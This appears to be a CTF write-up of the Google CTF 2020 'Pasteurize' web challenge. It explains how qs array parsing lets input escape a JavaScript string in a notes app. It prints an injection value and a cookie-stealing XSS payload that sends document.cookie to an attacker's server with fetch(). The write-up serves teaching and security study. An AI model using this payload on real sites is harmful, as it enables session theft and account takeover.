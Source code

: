 ```yaml
---
layout: post
title: "[GoogleCTF 2020] Pasteurize"
author: Vie
---
```


# TL;DR

1. Escape out of the `const note` javascript variable by forcing the app's bodyparser(`npm qs`) to interpret your input as an array
2. Craft XSS payload to steal cookies and put it into a paste
3. Share your paste with TJMike to get the flag

# Pasteurize 

The first aweb challenge from Google CTF 2020. It's a simple website that holds "pastes", or notes, that take your input and store it onto a note webpage. You make a note, and then you can share it with some entity called "TJMike". Pretty cut and clear XSS attack. 

Unfortunately, it's not that simple: 

```html
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
<script>
        const note = "test";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
    
```

There's a `<script>` tag in the HTML of the note we create that takes our input, puts it into a `note` variable, and then cleans it using [DOMpurify](https://www.npmjs.com/package/dompurify). The DOMpurify npm library is a pretty robust one, and I doubted that Google wanted us to 0day it to solve this challenge. Can we escape out of that `note` variable? If we could, say, inject our own quotation marks in there? If we could, then since we're already in a Javascript context, we could do all sorts of commands and implanting an XSS payload would be pretty easy to do. What's also interesting is the presence of that suspicious HTML comment, just above the `<script>` tag. More on that in a second. 

Putting a pin on that - if we examine how the requests are made when we submit our note, we see that a POST request is made where our input is in that request body, given to the server to process accordingly.

How does the body of POST requests get parsed by the pasteurize application? Well, going back to that HTML comment we saw earlier, we can see for ourselves by going to the `/source` endpoint.

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

Amidst the rest of the code is this interesting declaration of how the app's bodyparser (what actually reads through a request body in the application) should work - in extended mode. Doing some [googling](https://stackoverflow.com/questions/55558402/what-is-the-mean-of-bodyparser-urlencoded-extended-true-and-bodyparser) reveals that setting bodyParser's extended mode to `true` means it will utilize the `qs` library to parse input. What does that mean for us?

The `qs` library can parse [strings and arrays](https://www.npmjs.com/package/qs) from request bodies. If you stipulate a parameter in the body as so:

```
pets[]=cat&dog
```

then `qs` will interpret it as an array:

```
pets: ['cat', 'dog']
```

Notice how the library will input its own quotation marks in the elements of the array. Can we leverage this behvaiour from `qs` to inject quotation marks for us? 

If you input into the body of the request:

```
content[] = ; alert(1); const ignore =
```

We can succesfully escape from that `note` variable from before and have an alert pop up when we visit the created note. Essentially, the `<script>` now looks like this:

```html
<script>
        const note = ""; alert(1); const ignore ="";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
```
And so the `alert` function is being correctly evaluated as javascript instead of as part of a string.

The rest of the challenge is a pretty cut and clear XSS - craft a payload that steaks a cookie and sends it to your server on load of the note webpage, and share that with TJMike.

```
content[] = ; document.getElementByID('note-content').onLoad = fetch("SER.ver?Cookie="%2Bbtoa(document.cookie))
```
This payloads crafts the cookie into a GET URL query, so it's encoded in base64 to avoid potential URL issues with strange characters. Report your note to TJMike, and retrieve the cookie sent to your server...

![Reported](/assets/images/googlectf2020/pasteurize/StolenCookie.png) 

Now we just need to decode it! 

![Decoded](/assets/images/googlectf2020/pasteurize/DecodedCookie.png) 